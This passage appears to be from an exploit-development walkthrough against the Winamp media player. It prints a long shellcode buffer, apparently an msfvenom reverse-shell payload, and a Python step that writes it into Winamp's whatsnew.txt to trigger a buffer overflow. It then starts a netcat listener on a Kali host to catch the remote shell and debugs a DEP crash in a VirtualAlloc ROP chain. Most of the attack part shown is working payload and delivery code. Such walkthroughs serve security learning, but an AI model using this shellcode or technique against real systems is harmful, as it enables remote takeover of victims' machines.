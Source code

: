 ```python
buf += "\x86\x40\x50\xbc\x3d\xb2\x2e\x3f\x97\x8a\xcf\xec\xd6"
buf += "\x22\x22\xec\x1f\x84\xdd\x9b\x69\xf6\x60\x9c\xae\x84"
buf += "\xbe\x29\x34\x2e\x34\x89\x90\xce\x99\x4c\x53\xdc\x56"
buf += "\x1a\x3b\xc1\x69\xcf\x30\xfd\xe2\xee\x96\x77\xb0\xd4"
buf += "\x32\xd3\x62\x74\x63\xb9\xc5\x89\x73\x62\xb9\x2f\xf8"
buf += "\x8f\xae\x5d\xa3\xc7\x03\x6c\x5b\x18\x0c\xe7\x28\x2a"
buf += "\x93\x53\xa6\x06\x5c\x7a\x31\x68\x77\x3a\xad\x97\x78"
buf += "\x3b\xe4\x53\x2c\x6b\x9e\x72\x4d\xe0\x5e\x7a\x98\xa7"
buf += "\x0e\xd4\x73\x08\xfe\x94\x23\xe0\x14\x1b\x1b\x10\x17"
buf += "\xf1\x34\xbb\xe2\x92\xfa\x94\xed\xd3\x93\xe6\xed\x12"
buf += "\xdf\x6e\x0b\x7e\x0f\x27\x84\x17\xb6\x62\x5e\x89\x37"
buf += "\xb9\x1b\x89\xbc\x4e\xdc\x44\x35\x3a\xce\x31\xb5\x71"
buf += "\xac\x94\xca\xaf\xd8\x7b\x58\x34\x18\xf5\x41\xe3\x4f"
buf += "\x52\xb7\xfa\x05\x4e\xee\x54\x3b\x93\x76\x9e\xff\x48"
buf += "\x4b\x21\xfe\x1d\xf7\x05\x10\xd8\xf8\x01\x44\xb4\xae"
buf += "\xdf\x32\x72\x19\xae\xec\x2c\xf6\x78\x78\xa8\x34\xbb"
buf += "\xfe\xb5\x10\x4d\x1e\x07\xcd\x08\x21\xa8\x99\x9c\x5a"
buf += "\xd4\x39\x62\xb1\x5c\x49\x29\x9b\xf5\xc2\xf4\x4e\x44"
buf += "\x8f\x06\xa5\x8b\xb6\x84\x4f\x74\x4d\x94\x3a\x71\x09"
buf += "\x12\xd7\x0b\x02\xf7\xd7\xb8\x23\xd2"

with open('C:\Program Files\Winamp\whatsnew.txt', 'w') as file:
    file.write(buf)
```



## Step 3: Start a listener to catch reverse shell

On the remote host destined to catch the remote shell when the exploit triggers (defined by `LHOST` by msfvenom when crafting the payload), a Kali VM in this instance, make sure a TCP/IP server is running ready to catch and echo the shell when delivered from the victim host by the exploit. Keeping life simple with netcat:

    # nc -l -p 443


## Step 4: Run exploit (attempt 1)

Trigger the overflow by accessing the Help | Version History menu. This immediately crashes the program, with a Data Execution Prevention exception triggered by the OS:


> Access violation when executing [00B7EF74]

What gives? The `VirtualAlloc` ROP chain was meant to disable DEP, and execute the shellcode. But instead, DEP killed the program.



## Step 5: Debug winamp.exe with Immunity Debugger
